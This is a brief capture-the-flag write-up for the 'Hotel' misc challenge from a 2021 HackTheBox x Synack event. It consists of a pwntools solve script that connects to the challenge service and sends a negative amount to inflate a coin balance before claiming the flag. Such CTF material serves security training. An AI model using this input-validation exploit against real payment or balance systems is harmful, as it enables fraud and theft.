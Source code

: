 ```yaml
---
name: Hotel (2021)
event: HackTheBox x Synack RedTeamFive CTF 2021
category: Misc
description: Writeup for Hotel (misc) - HackTheBox x Synack RedTeamFive CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Hotel

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

io = remote('ip', 31337)

# Loop through 40 times (backwards)
# This will allow us to deal with XOR in final stage
for i in range(40, 0, -1):
    io.sendline('1')
    io.sendlineafter(':', str(i))

# Get coins
io.sendline('2')
# Negative value to add 100 coins
io.sendlineafter('?', '-100')
# Try and get flag
io.sendline('3')

# Win?
io.interactive()
```
{% endcode %}
